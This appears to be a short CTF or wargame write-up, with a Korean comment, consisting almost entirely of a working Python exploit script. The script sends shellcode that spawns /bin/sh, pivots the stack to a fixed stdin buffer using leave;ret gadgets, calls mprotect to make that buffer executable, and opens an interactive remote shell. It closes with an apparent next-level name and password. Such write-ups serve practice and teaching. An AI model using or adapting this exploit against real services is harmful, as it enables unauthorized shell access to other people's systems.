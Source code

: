 

```python
from socket import *
import struct

def interactive(s):
  while True:
    cmd = raw_input("# ")
    s.send(cmd + "\n")
    print s.recv(4096),

p32 = lambda x : struct.pack("<I", x)

host = 'localhost'
port = 7777

shellcode  = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

mprotect = 0x714670
stdin_addr = 0xf6ffe000
leaveret = 0x8048369

payload  = shellcode
payload += "\x90"*(268 - len(shellcode))
payload += p32(leaveret)

payload += "\x90"*88
fake_ebp = stdin_addr + len(payload) + 4  # &mprotect 가 담기는 위치-4
payload += p32(fake_ebp)
payload += p32(leaveret)

payload += p32(mprotect)
payload += p32(stdin_addr)
payload += p32(stdin_addr)
payload += p32(1024)
payload += p32(7)

s = socket(AF_INET, SOCK_STREAM)
s.connect( (host, port) )
s.sendall(payload + "\n")
print s.recv(1024)

interactive(s)
```



> 문제를 풀면서, mprotect로 스택 영역을 권한 바꾸면 되지 않나? 라는 생각이 들었었는데, 이는 불가능 하다.
>
> 이유는 ASLR이 걸려있어 stack영역의 주소를 알 수 없기 때문. stdin버퍼 영역은 고정된 주소이기 때문에 가능하다.



**hell_fire / sign me up**



